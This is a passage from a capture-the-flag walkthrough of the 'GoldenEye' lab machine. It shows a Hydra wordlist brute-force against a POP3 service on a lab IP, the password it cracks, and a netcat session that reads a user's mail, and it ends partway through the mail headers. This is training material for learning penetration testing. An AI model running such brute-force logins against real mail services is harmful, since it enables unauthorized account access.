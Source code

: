 Logging in as xenia a message notification popped up, using the notification I was navigated to the users messages.

![xeniamessage](/assets/images/goldeneye/xeniamessage.png)

A new email username is 'doak'

```highlight
└──╼ $hydra -l doak -P /usr/share/wordlists/fasttrack.txt -s 55007 10.10.50.94 pop3
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-06-27 12:16:54
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 222 login tries (l:1/p:222), ~14 tries per task
[DATA] attacking pop3://10.10.50.94:55007/
[STATUS] 80.00 tries/min, 80 tries in 00:01h, 142 to do in 00:02h, 16 active
[STATUS] 64.00 tries/min, 128 tries in 00:02h, 94 to do in 00:02h, 16 active
[55007][pop3] host: 10.10.50.94   login: doak   password: goat
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-06-27 12:19:23
```

Repeating the same process as before, I brute forced the users password and logged in to POP3 service to check for messages.

```highlight
└──╼ $nc 10.10.50.94 55007
+OK GoldenEye POP3 Electronic-Mail System
user doak
+OK
pass <<redacted>>
+OK Logged in.
list
+OK 1 messages:
1 606
.
RETR 1
+OK 606 octets
Return-Path: <doak@ubuntu>
X-Original-To: doak
Delivered-To: doak@ubuntu
```